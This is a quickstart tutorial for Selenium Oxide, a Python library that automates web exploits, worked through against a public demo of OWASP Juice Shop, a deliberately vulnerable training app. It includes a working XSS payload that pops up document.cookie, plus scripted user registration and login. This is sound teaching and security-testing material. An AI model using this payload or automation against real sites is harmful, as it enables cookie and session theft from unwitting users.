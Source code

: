 # Quickstart

Selenium Oxide comes with 2 usable parts as of 2.0.0: the Exploit Builder and the User Generator. You can use both fairly easily in the same exploit!

## Using the Exploit Builder

The Exploit Generator is designed to be used similar to Builder Pattern classes in object-oriented programming: you chain functions together and eventually get a result.

Well, here we have the chaining, and the result unfolds as the program executes, so I think that counts?

Either way, let's have a look at writing an exploit against a publicly available demo of OWASP Juice Shop.

## Setting Up

Let's start by importing everything we need and initializing our Exploit Builder:

```python
# engagements/quickstart.py

from selenium_oxide import ExploitBuilder

exploit = ExploitBuilder("https://juice-shop.herokuapp.com")

exploit.get("/")
```

Let's see what that gets us:

![OWASP Juice Shop's welcome page, with a welcome modal we need to dismiss.](https://github.com/ApprenticeofEnder/Selenium-Oxide/blob/9ce192e765950070a27f320d4c51cb8a01d64867/docs/assets/dismiss_button.png)

Hmm. Looks like we have our first hurdle already. We need to click that "Dismiss" button to proceed. Let's copy the XPath of that button by inspecting it in dev tools, right clicking, and then selecting Copy -> XPath.

```python
from selenium_oxide import ExploitBuilder

exploit = ExploitBuilder("https://juice-shop.herokuapp.com")

dismiss_button_xpath = "/html/body/div[3]/div[2]/div/mat-dialog-container/app-welcome-banner/div/div[2]/button[2]"

exploit.get("/").click(dismiss_button_xpath, timeout=10)

print("[*] Dismissed pop-up.")
```

We'll set the XPath as a variable for now, and then we just need to click on the button itself. With Juice Shop in particular, the elements can take a bit to load, so allocate something like 10 or more seconds for the click to register properly.

Since the timeouts are high, I'd recommend adding a little print statement at the end to let you know when the program has completed, like I did.

## First Actual Exploit

Let's actually try and get an exploit going. For this one, we can make a little XSS pop up using the search bar. This one has you click a button and then type some text, so let's do that.

```python
# ---SNIP---

search_xpath = '//*[@id="mat-input-0"]'

search_xss_payload = (
    '<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>'
)

(
    exploit.get("/")
    .click(dismiss_button_xpath, timeout=10)
    .click('//*[@id="searchQuery"]')
    .type_entry(
        search_xpath,
        search_xss_payload,
    )
    .send_enter(search_xpath)
)

print("[*] Exploit complete.")
```

With this one, it might be necessary to dig through the HTML until you find the `input` tag that actually lets you send keystrokes.

However, if we run that, and all goes well, we should get an XSS pop up! Hooray!

![A web page with an alert showing the cookies for the web page. A successful XSS attack!](https://github.com/ApprenticeofEnder/Selenium-Oxide/blob/9ce192e765950070a27f320d4c51cb8a01d64867/docs/assets/xss.png)

## Using the User Generator

Let's make use of that User Generator and sign up some users for the site. For this site, the default password of SeO2User isn't quite right, so we'll also need to set a password.

Before moving further, we'll also want to make sure that an alert actually fired for the XSS exploit.

```python
from selenium_oxide import ExploitBuilder, SeO2User

# ---SNIP---

user = SeO2User(password="Password1!")

(
    exploit.get("/")
# ---SNIP---
)

if not exploit.wait_for_alert():
    print("[-] Alert not fired.")
    sys.exit(1)

print("[*] Exploit complete.")
```

Then, we need to go to the registration page, grab the XPaths for all of the different inputs, and give an answer for a security question -- because of course those are still around.

```python

# ---SNIP---

(
    exploit.get("/#/register")
    .type_entry('//*[@id="emailControl"]', user.email)
    .type_entry('//*[@id="passwordControl"]', user.password)
    .type_entry('//*[@id="repeatPasswordControl"]', user.password)
    .click(
        "/html/body/app-root/div/mat-sidenav-container/mat-sidenav-content/app-register/div/mat-card/div[2]/div[1]/mat-form-field[1]/div/div[1]/div[3]/mat-select/div/div[2]"
    ) # This is for the security question option box
    .click("/html/body/div[3]/div[2]/div/div/div/mat-option[1]/span")
    .type_entry('//*[@id="securityAnswerControl"]', user.name)
    .click('//*[@id="registerButton"]')
)

print("[*] Exploit complete.")
```

If all goes well, you should be redirected to a login page. Luckily, we have a convenience function for that!

`login()` takes an endpoint, username, password, and XPaths (or, actually, whatever selector if you use the "by" parameter) for the username and password fields, as well as the submit button. Handy!

```python

# ---SNIP---

(
    exploit.get("/#/register")
    .type_entry('//*[@id="emailControl"]', user.email)
    .type_entry('//*[@id="passwordControl"]', user.password)
    .type_entry('//*[@id="repeatPasswordControl"]', user.password)
    .click(
        "/html/body/app-root/div/mat-sidenav-container/mat-sidenav-content/app-register/div/mat-card/div[2]/div[1]/mat-form-field[1]/div/div[1]/div[3]/mat-select/div/div[2]"
    ) # This is for the security question option box
    .click("/html/body/div[3]/div[2]/div/div/div/mat-option[1]/span")
    .type_entry('//*[@id="securityAnswerControl"]', user.name)
    .click('//*[@id="registerButton"]')
    .login(
        "/#/login",
        user.email,
        user.password,
        '//*[@id="email"]',
        '//*[@id="password"]',
        '//*[@id="loginButton"]',
    )
)

print("[*] Exploit complete.")
```

## Moving On

Hopefully this has given you some insight as to how to use Selenium Oxide in a broad sense. There are more features under the hood, such as the API interface, JavaScript execution, cookie manipulation, and more!
